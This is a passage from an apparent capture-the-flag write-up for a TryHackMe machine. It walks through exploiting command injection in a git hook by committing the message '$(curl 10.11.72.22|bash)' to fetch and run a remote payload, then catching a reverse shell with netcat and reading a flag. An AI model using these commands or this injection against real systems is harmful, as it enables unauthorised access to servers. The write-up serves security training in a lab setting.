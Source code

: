 The problem is that there is a command injection vulnerability in this line with the `$commit_message`:

```bash
bash -c "echo $(date) - Ref: $refname - Commit: $commit_message >> $LOGFILE"
```

Since the commit message is user-controlled, we can inject commands into it, as shown below:

```console
$ commit_message='$(whoami)'; bash -c "echo Commit: $commit_message"
Commit: kali
```

Currently, the only repository we have write access to and thus can push changes is the `admdev` repository. Even though we don't know if this hook is present for that repository, we can still try to exploit this vulnerability.

```console
$ cd admdev
$ echo "jxf" > jxf
$ git config user.email "you@example.com"
$ git config user.name "Your Name"
$ git add jxf
$ git commit -m '$(curl 10.11.72.22|bash)'
$ GIT_SSH_COMMAND="ssh -i ../root.key" git push git@bestfestivalcompany.thm:admdev.git
```

Running these commands, we see the last `git push` command hangs, and we get a shell as the `git` user on the host on our listener.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.165.202] 43234
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
git@tryhackme-2404:~/repositories/admdev.git$ export TERM=xterm
git@tryhackme-2404:~/repositories/admdev.git$ ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

git@tryhackme-2404:~/repositories/admdev.git$ id
uid=115(git) gid=122(git) groups=122(git)
```

And we can read the third flag at `/home/git/flag-3bf841ea61e9a41b5e4ebb82a024a7cd.txt`.

```console
git@tryhackme-2404:~$ wc -c flag-3bf841ea61e9a41b5e4ebb82a024a7cd.txt
38 flag-3bf841ea61e9a41b5e4ebb82a024a7cd.txt
```

### Fourth Flag

Checking our `sudo` privileges as the `git` user, we can see that we are able to run the `/usr/bin/git --no-pager diff *` command as `root`.
